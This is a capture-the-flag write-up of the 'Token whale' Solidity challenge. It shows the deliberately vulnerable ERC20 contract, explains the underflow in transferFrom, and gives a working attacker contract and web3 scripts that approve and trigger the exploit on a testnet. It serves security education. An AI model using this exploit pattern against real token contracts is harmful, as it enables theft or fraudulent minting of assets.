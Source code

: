 # 10. Token whale

This ERC20-compatible token is hard to acquire. There’s a fixed supply of 1,000 tokens, all of which are yours to start with.

Find a way to accumulate at least 1,000,000 tokens to solve this challenge.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}
```

## Vulnerability

The issue here is that `transferFrom` will internally call `_transfer` that operates on `balanceOf[msg.sender]` at `balanceOf[msg.sender] -= value;`. Through approval, the balance is not coming from `msg.sender` by definition. We can therefore cause an underflow on `balanceOf[msg.sender]` and get out with as many tokens as we'd like.

If you want more details : calling `transferFrom` from an approved addres that has 0 balance will eventually execute : `balanceOf[msg.sender] -= value`. Given that `msg.sender` has 0 balance, the underflow will set its balance to `2^256 - value`, thus generating a potentially huge number of tokens for free. In this challenge there is both a bad contract design (unchecked conditions and requirements) paired with unchecked arithmetic.

Let's use a very simple contract for that challenge :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma abicoder v1;

contract Attacker {
  address targetContract;
  address owner;

  constructor (address _targetContract) {
    targetContract = _targetContract;
    owner = msg.sender;
  }

  function attack() public {
    // Causes an underflow in the balance of this contract in the token contract
    (bool success1, ) = targetContract.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", owner, address(0), 1000));

    require(success1 == true, "Error in transferFrom");
    
    // Transfer 1000000 tokens to our address
    (bool success2, ) = targetContract.call(abi.encodeWithSignature("transfer(address,uint256)", owner, 1000000));

    require(success2 == true, "Error in transfer");
  }
}
```

And deploy to to the Ropsten network giving it as parameter the address of the challenge contract.

Now let's just approve this adversarial contract :

```js
const challengeContract = "0x98B45E96cE95Bc46fAfa0E1E3a8145cBf246c330";
const adversarialContract = "0x0544349F01942671dE3E0060a3759cC4698316aE";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "approve",
    type: "function",
    inputs: [
      { type: "address", name: "spender" },
      { type: "uint256", name: "value" },
    ],
  },
  [adversarialContract, 1000]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});

```

And launch the attack :

```js
const adversarialContract = "0x0544349F01942671dE3E0060a3759cC4698316aE";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

We now have a balance of 1001000 as we generated 1000000 tokens from the faulty `transferFrom` that in turn deduced 1000 from `msg.sender`. But `msg.sender` was not our address, it was the one of the adversarial contract. The adversarial contract finally send 1000000 tokens to our address, thus giving us a blance of 1001000 tokens.

You can submit the challenge.